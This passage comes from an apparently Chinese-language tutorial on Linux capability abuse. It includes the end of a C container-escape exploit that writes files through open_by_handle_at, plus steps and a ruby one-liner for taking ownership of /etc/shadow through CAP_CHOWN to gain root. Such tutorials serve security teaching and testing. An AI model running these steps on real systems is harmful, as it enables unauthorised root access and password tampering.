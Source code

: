 ```
  read(0, buf, 1);  
  // get a FS reference from something mounted in from outside  
  if ((fd1 = open("/etc/hostname", O_RDONLY)) < 0)  
    die("[-] open");  
  if (find_handle(fd1, argv[1], & root_h, & h) <= 0)  
    die("[-] Cannot find valid handle!");  
  fprintf(stderr, "[!] Got a final handle!\n");  
  dump_handle( & h);  
  if ((fd2 = open_by_handle_at(fd1, (struct file_handle * ) & h, O_RDWR)) < 0)  
    die("[-] open_by_handle");  
  char * line = NULL;  
  size_t len = 0;  
  FILE * fptr;  
  ssize_t read;  
  fptr = fopen(argv[2], "r");  
  while ((read = getline( & line, & len, fptr)) != -1) {  
    write(fd2, line, read);  
  }  
  printf("Success!!\n");  
  close(fd2);  
  close(fd1);  
  return 0;  
}


```

CAP_CHOWN
---------

**CAP_CHOWN:** 可以改变任何文件的所有权。

**当文件具有能力：**  假设python二进制文件具有这种能力，可以改变`/etc/shadow`的所有者，改变root的密码以此提权。python具有CAP_CHOWN，当前`/etc/shadow`还是root的。

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/1/6afe5af3-b2ef-4a28-809c-cf41b6a08eea.png?raw=true)

  

通过利用python所有者已经变更。

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/1/1273e384-0c24-4c29-bde5-64380e460a27.png?raw=true)

  

或者ruby可以通过如下命令。

```
ruby -e 'require "fileutils"; FileUtils.chown(1000, 1000, "/etc/shadow")'
```

CAP_FOWNER
----------

**CAP_FOWNER：** 更改任何文件的权限 类似CAP_CHOWN，python具有这种能力，可以改变`/etc/shadow`的所有者，改变root的密码以此提权。
